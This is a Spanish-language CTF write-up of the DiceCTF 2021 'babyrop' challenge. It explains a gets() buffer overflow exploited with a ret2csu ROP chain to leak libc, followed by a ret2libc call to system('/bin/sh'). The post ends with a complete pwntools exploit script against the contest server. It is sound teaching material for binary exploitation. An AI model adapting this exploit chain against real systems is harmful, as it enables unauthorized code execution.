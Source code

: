 ```yaml
---
layout: post
title: diceCTF babyrop
date: 2021-02-09 13:59
comments: true
categories: [Sin categoría]
---
```


Hola, ya que he decidido migrar mi página a github pages,y para pastor este 2021, aprovecharé de hacer un write up de un binario que hice el fin de semana en [DICECTF 2021.](https://ctf.dicega.ng/) La parte de pwn estuvo bien buena. Solo alcance a hacer este rop y un heap a medias, pero al menos sirvió para mantener la práctica. 

El binario en cuestión podemos ver que es de 64bit, puedes descargarlo de [aca](https://github.com/dplastico/heap_stream/blob/main/babyrop)  no tiene RELRO ni PIE, lo cual hace las cosas bastante sencillas. Eso sí, debemos considerar que probablemente ASLR si está habilitado en el sistema con lo que de todas formas necesitaremos de un leak.

![Imgur](https://i.imgur.com/wtXtqAk.png)

Al revisar las funciones vemos que ocupa la función [gets](https://linux.die.net/man/3/gets) (ya sabemos que esto lleva a buffer overflow), pero solo ocupa adicional a esto la función de [write](https://man7.org/linux/man-pages/man2/write.2.html) para imprimir en pantalla.

![Imgur](https://i.imgur.com/7xWpbFq.png)

Considerando esto nuestro plan de explotación será el siguiente:

- Generar un Overflow y usar ROP para “lekear” una dirección de LIBC
- Identificar la version de LIBC
- Calcular los offsets necesarios
- Volver a generar un Buffer Overflow esta vez llamar a system y obtener una shell


Para obtener el leak el plan es generar un ROP y hacer un llamado a la función de write, podemos observar los parámetros que usa este syscall en el siguiente [link](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/). En resumen debemos ubicar en el registro RDI el file descriptor 1 (stdout), la dirección  que queramos “lekear” en RSI (en este caso usaremos la dirección GOT de gets y write) y en el registro RDX debemos darle un valor que usará para definir cuántos bytes se imprimirán en pantalla. Por lo mismo debemos considerar para esto al menos 8 bytes.

Podemos usar [ropper](https://github.com/sashs/Ropper) para mostrar los gadgets del binario y no tener que hacer una búsqueda manual, pero vemos que no hay forma de controlar el valor de rdx

![Imgur](https://i.imgur.com/DngI1xm.png)

Pero! Por eso mismo siempre les recomiendo revisar el binario de manera manual, por que en este caso podemos ocupar una técnica conocida como ret2csu. 

Puedes leer una descripción más detallada [acá](https://i.blackhat.com/briefings/asia/2018/asia-18-Marco-return-to-csu-a-new-method-to-bypass-the-64-bit-Linux-ASLR-wp.pdf), pero en resumen, usando esta técnica podemos encontrar ciertos “gadgets universales” que nos permiten controlar determinados registros haciendo uso de estas funciones que siempre se cargan en un ELF producto de la compilación. En este caso usaremos la funcion __lib_csu_init

![Imgur](https://i.imgur.com/lzcqURc.png)

Podemos observar que somos capaces usar un pop al registro R14 en la dirección 0x4011d0 y luego mover con “MOV rdx, r14” en 0x4011b0 el valor al registro RDX. Además el mismo gadget nos permitirá usar R15 y R13 para poder situar los valores de RSI y EDI (4 bytes de RDI).

Para que esto funcione debemos primero agregar los registros necesarios en nuestro “ropchain” de tal manera que pase el check en 0x4011c4 y hacer que el call, llame a write directamente por lo cual debemos asegurarnos que el valor de write este en  0x4011b9 call   QWORD PTR [ r15+rbx*8 ] 

```python
payload = b"A"*0x48 #overflow a los 72 bytes
payload += p64(0x4011ca) #pop a registros
payload += p64(0)#rbx
payload += p64(1)#rbp
payload += p64(1)#r12 --> edi
payload += p64(elf.got.gets) #r13 --> rsi
payload += p64(8)#r14 ---> rdx
payload += p64(elf.got.write) #r15
payload += p64(0x04011b0) # escribiendo en RDX RSI Y EDI
payload += p64(0)*7 # --> los pop nuevamente
payload += p64(elf.sym.main) #para retornar a main y hacer un segundo bof
```

Si enviamos esto podemos lekear las direcciones de gets y write

![Imgur](https://i.imgur.com/ddj0QHq.png)

![Imgur](https://i.imgur.com/ddj0QHq.png)

Con esto podemos buscar una versión de libc remota que coincida y de esa forma podemos calcular los offsets. Para esto ocupare [esta DB](https://libc.blukat.me/)

![Imgur](https://i.imgur.com/aUoas6M.png)

Vemos que coincide con la versión, la 2.31 , podríamos descargarla pero dado que esta pagina nos entrega los offset a system y al string de "/bin/sh" dentro de glibc, pues probaremos con esto en nuestro segundo payload, de la siguiente forma:

```python
payload = b"A" * 72 #overflow
payload += p64(poprdi) #pop rdi en el binario
payload += p64(libc.address+0x1b75aa) #string de /bin/sh a RDI como primer arg
payload += p64(ret) #ret para alinear el stack a 16 bytes (ubuntu)
payload += p64(libc.address+0x055410) #direccion de system
```
Con esto ejecutamos y listo! Tenemos una shell.

![Imgur](https://i.imgur.com/trApFwN.png)

Espero que les haya gustado, este fue el único exploit que pude terminar en el CTF tuve mucho que hacer y los retos no estaban tan fáciles. Aun asi ya he hechos desafíos para Q4 que ocupan esta técnica, por lo cual me pareció valido mostrar como funciona. Espero les haya gustado, aca les dejo el exploit final:

```python
#!/usr/bin/python3
from pwn import *
gs = '''
continue
'''
elf = context.binary = ELF('./babyrop')
context.terminal = ['tmux', 'splitw', '-hp', '70']
libc = elf.libc

def start():
    if args.GDB:
        return gdb.debug('./babyrop', gdbscript=gs)
    if args.REMOTE:
        return remote('dicec.tf', 31924)
    else:
        return process('./babyrop')
r = start()
r.timeout = 0.3
#========= exploit here ===================

poprdi = 0x4011d3
ret = 0x040116b

payload = b"A"*0x48 #overflow a los 72 bytes
payload += p64(0x4011ca) #pop a registros
payload += p64(0)#rbx
payload += p64(1)#rbp
payload += p64(1)#r12 --> edi
payload += p64(elf.got.gets) #r13 --> rsi
payload += p64(8)#r14 ---> rdx
payload += p64(elf.got.write) #r15
payload += p64(0x04011b0) # escribiendo en RDX RSI Y EDI
payload += p64(0)*7 # --> los pop nuevamente
payload += p64(elf.sym.main) #para retornar a main y hacer un segundo bof

r.sendlineafter("name:", payload)

leak = u64(r.recvuntil("Your").split(b"Your")[0][1:7].ljust(8,b"\x00"))  #remote offset
libc.address = leak - 0x086af0
log.info(f"leak = {hex(leak)}")
log.info(f"libc remote = {hex(libc.address)}")

payload = b"A" * 72 #overflow
payload += p64(poprdi) #pop rdi en el binario
payload += p64(libc.address+0x1b75aa) #string de /bin/sh a RDI como primer arg
payload += p64(ret) #ret para alinear el stack a 16 bytes (ubuntu)
payload += p64(libc.address+0x055410) #direccion de system

r.sendlineafter("name:", payload)  #!!

#========= interactive ====================
r.interactive()
```